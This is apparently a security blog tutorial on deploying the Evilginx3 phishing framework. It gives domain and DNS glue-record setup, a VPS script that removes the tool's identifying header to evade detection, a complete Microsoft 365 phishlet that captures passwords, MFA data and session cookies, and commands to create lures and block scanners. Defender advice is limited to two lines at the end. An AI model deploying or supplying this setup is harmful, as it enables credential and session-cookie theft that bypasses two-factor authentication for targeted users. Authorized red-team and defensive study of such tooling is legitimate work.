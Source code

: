 ```yaml
---
title: "How to Set Up Evilginx3"
date: 2023-07-16
description: "Quick tutorial on how to set up evilginx3 phishing framework"
summary: "Quick tutorial on how to set up evilginx3 phishing framework"
tags: ["phishing"]
---
```


## What is Evilginx?

Evilginx is a tool created by security researcher [Kuba Gretzky](https://twitter.com/mrgretzky), designed for advanced phishing attacks.

As per the [GitHub page](https://github.com/kgretzky/evilginx2):

> Evilginx is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection.

> The present version is fully written in GO as a standalone application, which implements its own HTTP and DNS server, making it extremely easy to set up and use.

Please refer to [documentation](https://help.evilginx.com/) and consider signing up for the [Evilginx Mastery course](https://academy.breakdev.org/evilginx-mastery) to learn how to build custom / advanced phishlets.

It's important to note that phishing is illegal and unethical without proper authorisation. This information is provided for educational purposes only, and I strongly discourage any misuse or illegal activities.

## Domain Setup

![michaelsoft](/images/evilginx3/michaelsoft.png)

The domain setup process is fairly simple, but will depend on the domain registrar you use. Here's a general overview of how it typically works:

* **Domain Registration**: Register a domain name for your phishing campaign.
* **DNS Configuration**: After registering the domain, you need to configure the domain's DNS settings. evilginx will act as the DNS resolver, so you don't need to manually add "A" records for your phishing domain / subdomains yourself. Instead you will change the glue records for your domain. **Note**: this is not supported by all domain registrars. 

A glue record contains the IP address of a nameserver, enabling the resolution of a domain when the nameserver is hosted within the same domain. For example, if the domain "example.com" has the nameserver "ns1.example.com", a glue record would provide the necessary IP address for the "ns1.example.com" nameserver to be correctly resolved.

Using Godaddy for example (not an endorsement), with a fake domain `michaelsoft.com` and assuming evilginx is externally accessible via the following IP address `3.105.197.139`:
	
**Create hostname records**:
	
![godaddy-hostname](/images/evilginx3/godaddy-hostname.png)
	
**Change the nameserver**:

![godaddy-nameserver](/images/evilginx3/godaddy-nameserver.png)


## Virtual Private Server Setup

The steps to configure an external phishing host with evilginx is already well [documented](https://help.evilginx.com/docs/getting-started/deployment/remote), so I have created the following bash script to automate this step. 

Keep in mind the following:

* This script is intended to be run on a fresh ubuntu linux host (I have not tested it on any other OS)
* You may want to update the version of golang (don't forget to update the checksum too)
* You may want to use a different terminal multiplexer (tmux instead of byobu)
* OPSEC: I have removed the lines of source code responsible for setting the `X-Evilginx:` header - this may change in future releases of evilginx
* You will need to configure firewall rules to allow inbound connections for HTTPS and DNS traffic


{{< gist dunderhay d5fcded54cc88a1b7e12599839b6badb >}}


## Evilginx3 Configuration

You should now be able to create your own phishlets in `/home/ubuntu/evilginx/phishlets` such as the following `m365.yaml` phishlet for targeting Microsoft 365. More information on the phishlet format for v.3.0.0 and above can be found [here](https://help.evilginx.com/docs/phishlet-format).

```yaml
name: 'Microsoft 365'
min_ver: '3.0.0'
proxy_hosts:
  - {phish_sub: 'login', orig_sub: 'login', domain: 'microsoftonline.com', session: true, is_landing: true, auto_filter: true}
  - {phish_sub: 'account', orig_sub: 'account', domain: 'microsoft.com', session: false, is_landing: false, auto_filter: true}
  - {phish_sub: 'www', orig_sub: 'www', domain: 'office.com', session: false, is_landing: false, auto_filter: true}
  - {phish_sub: 'login', orig_sub: 'login', domain: 'microsoft.com', session: false, is_landing: false, auto_filter: true}
auth_tokens:
  - domain: '.login.microsoftonline.com'
    keys: ['ESTSAUTH:always', 'ESTSAUTHPERSISTENT', 'SignInStateCookie:always']
    type: 'cookie'
credentials:
  username:
    key: '(login|UserName)'
    search: '(.*)'
    type: 'post'
  password:
    key: '(passwd|Password|accesspass)'
    search: '(.*)'
    type: 'post'
  custom:
    - key: 'mfaAuthMethod'
      search: '(.*)'
      type: 'post'
login:
  domain: 'login.microsoftonline.com'
  path: '/?auth=2'
```

After starting evilginx, you can set the required values:

```
config domain <your-phishing-domain>
config ipv4 external <your-vps-ipaddress>
```

It is recommended to prevent access from unauthorised prying eyes / scanners:

```
blacklist unauth
```

I also recommend changing the `redirect_url` from the default rick roll to something a little less obvious:

```
config redirect_url https://example.com
```

Configure the phishlet and lure:

```
phishlets hostname m365 <your-phishing-domain>
phishlets enable m365
lures create m365
lures get-url 0
```

The lure URL can be modified to fit your pretext, type `help lures` to get more info on what you can change.

There is a lot to cover when it comes to creating custom phishlets which is best covered in the [Evilginx Mastery course](https://academy.breakdev.org/evilginx-mastery) material. 


## Tips for Defenders

* Perform location validation
* Perform secret token validation

Both of these topics are covered in the [Evilginx Mastery course](https://academy.breakdev.org/evilginx-mastery). 

